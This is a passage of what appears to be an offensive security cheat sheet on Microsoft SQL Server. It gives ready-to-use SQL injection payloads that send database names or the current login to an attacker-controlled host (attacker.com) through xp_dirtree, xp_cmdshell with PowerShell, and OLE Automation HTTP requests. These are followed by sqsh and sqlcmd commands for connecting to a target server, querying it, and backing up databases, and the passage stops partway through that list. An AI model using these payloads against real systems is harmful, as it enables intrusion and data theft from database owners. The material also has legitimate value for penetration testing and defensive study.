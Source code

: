 *   **DNS Exfiltration Using XP\_DIRTREE:** Causes the MSSQL server to attempt to list a directory on an attacker-controlled SMB server, leaking database names via DNS queries.

    ```c
    '; EXEC master..xp_dirtree '\\attacker.com\' + (SELECT name FROM master..sysdatabases) -- -
    ```
*   **HTTP Exfiltration Using XP\_CMD\_SHELL:** Uses the `xp_cmdshell` stored procedure to execute a PowerShell command that sends database names to the attacker's server via HTTP.

    ```c
    '; EXEC xp_cmdshell 'powershell Invoke-WebRequest -Uri http://attacker.com/?data=' + (SELECT name FROM master..sysdatabases) -- -
    ```
*   **Data Exfiltration Using OLE Automation Procedures:** Uses OLE Automation Procedures to make an HTTP GET request to an attacker-controlled server, exfiltrating the current database user.

    ```c
    '; DECLARE @obj INT;  EXEC sp_OACreate 'MSXML2.ServerXMLHTTP', @obj OUT;  EXEC sp_OAMethod @obj, 'open', NULL, 'GET', 'http://attacker.com/?user='+ (SELECT SYSTEM_USER), false;  EXEC sp_OAMethod @obj, 'send'; -- -
    ```

### Tools

#### \[\[SQSH]]

*   **Connect with Username/Password:**

    ```bash
    sqsh -S <target_ip> -U <username> -P '<password>'
    ```
*   **Connect from Linux with Windows Authentication Mechanism:**

    ```bash
    sqsh -S <target_ip> -U .[\\julio](file://julio) -P '<password>' -h
    ```

#### \[\[SQLCMD]]

*   **Connect with Username/Password:** Connects to SQL Server using SQLCMD, allowing for interactive querying.

    ```bash
    sqlcmd -S <target_ip>,<target_port> -U <username> -P '<password>'
    ```
*   **Basic Query Execution:** Executes a simple query to list all databases.

    ```bash
    sqlcmd -S <target_ip>,1433 -U sa -P '<password>' -Q "SELECT name FROM sys.databases"
    ```
*   **Backup Database:** Backs up a specified database to a file.

    ```sql
    BACKUP DATABASE [dbname] TO DISK = 'C:\backups\dbname.bak' WITH FORMAT;
    ```
*   **Restoring a Database:** Restores a database from a backup file.
